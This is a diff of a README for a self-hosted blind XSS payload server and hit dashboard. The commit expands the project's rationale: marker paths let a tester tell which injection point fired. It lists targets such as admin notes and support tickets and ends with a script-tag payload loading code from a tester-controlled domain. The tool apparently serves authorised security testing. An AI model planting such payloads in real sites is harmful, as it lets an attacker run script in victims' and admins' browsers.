

Before and after one commit to Ranveerrrrr/Blind-XSS-HIT-Dashboard, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -11,7 +11,7 @@ A self-hosted Blind XSS payload server and hit dashboard with unlimited markers,
 <img width="1902" height="955" alt="image" src="https://github.com/user-attachments/assets/98cf2d38-749c-4a0a-9062-d9d5cae1ad10" />
 
 ## Why This Exists
-
+[Watch the explanation here — 1:19:30 to 1:21:40](https://youtu.be/5o0Ldc8Kypg?si=3QyGhKjxDyGIKu9l&t=4770)
 Blind XSS testing is painful when your callback tooling does not give you enough control.
 
 - Burp Collaborator and Interactsh payloads are temporary or tied to a session.
@@ -19,7 +19,22 @@ Blind XSS testing is painful when your callback tooling does not give you enough
 - Classic XSS Hunter-style setups are useful, but many workflows end up with one generic payload path.
 - When testing many fields, forms, endpoints, and roles, you need to know exactly which payload fired.
 
-This project gives you your own domain and unlimited marker paths:
+The problem is simple:
+
+When you test many different fields, forms, endpoints, accounts, and roles, a generic Blind XSS callback only tells you that **something fired**. It does not always clearly tell you **which exact injection point caused the hit**.
+For example, if you test payloads in:
+
+- profile name
+- profile bio
+- support ticket
+- admin note
+- billing address
+- internal comment
+- contact form
+
+and later receive a Blind XSS callback, you need to know exactly which one triggered.
+That is the problem XSSTrace solves.
+Instead of using one generic payload path, XSSTrace lets you create unlimited marker-based payloads:
 
 ```html
 <script src="https://xss.yourdomain.com/x/signup-name"></script>
````
